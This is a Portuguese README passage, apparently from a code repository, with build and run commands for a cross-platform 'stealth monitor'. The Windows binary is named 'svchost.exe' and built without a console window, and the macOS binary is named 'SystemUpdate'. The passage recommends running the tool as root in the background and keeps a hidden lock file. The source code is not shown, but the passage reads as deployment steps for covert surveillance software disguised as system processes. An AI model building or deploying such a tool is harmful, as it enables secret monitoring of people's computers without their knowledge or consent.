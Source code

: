 ### **Compilação Manual**

#### **Linux**
```bash
cd linux/
gcc -O3 -s -o system-monitor linux_stealth_monitor.c -lX11 -lXext -lpthread
```

#### **Windows (Cross-compile)**
```bash
cd windows/
x86_64-w64-mingw32-gcc -O3 -s -mwindows -static \
    -o svchost.exe win_stealth_monitor.c \
    -luser32 -lkernel32 -ladvapi32 -lpsapi -lws2_32
```

#### **macOS**
```bash
cd macos/
clang -O3 -framework CoreFoundation -framework CoreGraphics \
      -framework ApplicationServices -framework Carbon \
      -o SystemUpdate macos_stealth_monitor.c
```

---

## 🎯 USO POR PLATAFORMA

### **🐧 LINUX**

#### **Execução Básica**
```bash
# Executar em modo normal
./system-monitor

# Executar como root (recomendado)
sudo ./system-monitor

# Executar em background
nohup sudo ./system-monitor &
```

#### **Verificar Execução**
```bash
# Verificar processo
ps aux | grep system-monitor

# Verificar logs do sistema
journalctl -f | grep system-monitor

# Verificar arquivo de lock
ls -la /tmp/.monitor_lock
```
